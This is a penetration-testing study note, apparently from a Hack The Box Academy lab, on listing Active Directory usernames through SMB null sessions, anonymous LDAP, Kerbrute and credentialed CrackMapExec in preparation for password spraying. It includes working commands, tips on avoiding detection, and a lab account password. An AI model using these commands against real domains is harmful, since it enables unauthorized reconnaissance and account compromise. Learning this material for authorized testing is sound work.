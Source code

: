 - [[#Overview]]
- [[#User Enumeration Techniques]]
    - [[#1. SMB NULL Session Enumeration]]
        - [[#Using enum4linux:]]
        - [[#Using rpcclient:]]
        - [[#Using CrackMapExec —user Flag]]
    - [[#2. Gathering Users with LDAP Anonymous]]
        - [[#ldapsearch:]]
        - [[#windapsearch:]]
    - [[#3. Enumerating Users with Kerbrute]]
    - [[#4. Credentialed Enumeration to Build our User List]]
        - [[#Using CrackMapExec with Valid Credentials]]

---

# Overview

Building a precise and comprehensive list of valid domain usernames is essential to executing a successful password spraying attack. The effectiveness and stealth of the spray depend significantly on the quality of the username list and understanding of the domain’s password policy.

This section covers multiple enumeration methods, categorized by access level and tooling, to generate target user lists while minimizing detection and avoiding account lockouts.

---

# User Enumeration Techniques

## 1. SMB NULL Session Enumeration

**Description**: Anonymous SMB connections may allow enumeration of domain users and policy settings without valid credentials.

**Tools & Commands**:

### **Using enum4linux**:

```Shell
enum4linux -U <dc_ip> | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d "]" > validUsers.txt
```

### **Using rpcclient**:

```Shell
rpcclient -U "" -N <dc_ip>
rpcclient $> enumdomusers
```

### Using CrackMapExec —user Flag

```Shell
crackmapexec smb 172.16.5.5 --users
```

**Output**: List of usernames

---

## 2. Gathering Users with LDAP Anonymous

**Description**: If LDAP allows anonymous access, user enumeration and policy retrieval are possible.

**Tools & Commands**:

### **ldapsearch**:

```Shell
ldapsearch -h <dc_ip> -x -b "DC=example,DC=com" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
```

### **windapsearch**:

```Shell
./windapsearch.py --dc-ip <dc_ip> -u "" -U
```

**Output**: Usernames and userPrincipalNames

---

## 3. Enumerating Users with Kerbrute

**Description**:

- Uses Kerberos requests to determine valid usernames without triggering logon failures.
- If we have ==no access at all== from our position in the internal network, we can use Kerbrute to enumerate valid AD accounts and for password spraying.

==Useful Username List:== [https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt)

```Shell
kerbrute userenum -d <domain> --dc <dc_ip> /path/to/username_list.txt

\#Actual Command
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

**Behavior**:

- Valid users return prompts for pre-authentication.
- Invalid users return "PRINCIPAL UNKNOWN".
- Event ID 4768 may be logged, but no failed logons (4625) are generated.

---

## 4. Credentialed Enumeration to Build our User List

**Description**: With valid domain credentials, tools can perform detailed and accurate user enumeration.

### Using CrackMapExec with Valid Credentials

```Shell
crackmapexec smb <dc_ip> -u <username> -p <password> --users

\#Actual Command: 
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

**Output Includes**:

- Domain usernames
- `badpwdcount` (failed login attempts)
- `baddpwdtime` (timestamp of last failed login)

---